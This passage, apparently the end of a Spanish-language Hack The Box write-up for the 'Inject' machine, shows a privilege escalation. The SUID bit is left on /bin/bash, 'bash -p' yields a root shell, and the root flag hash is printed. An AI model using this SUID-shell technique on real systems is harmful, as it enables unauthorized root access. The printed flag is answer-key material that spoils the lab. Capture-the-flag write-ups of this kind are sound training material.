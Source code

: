 Lo elimino pero dejo la `Bash` con este permiso

```bash
phil@inject:/tmp$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

## Root

```bash
phil@inject:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
playbook_1.yml	root.txt
bash-5.0# cat root.txt 
67395257c1fa5b2fa7ffbbd440568392
bash-5.0# 
```

<https://www.hackthebox.com/achievement/machine/910232/533>


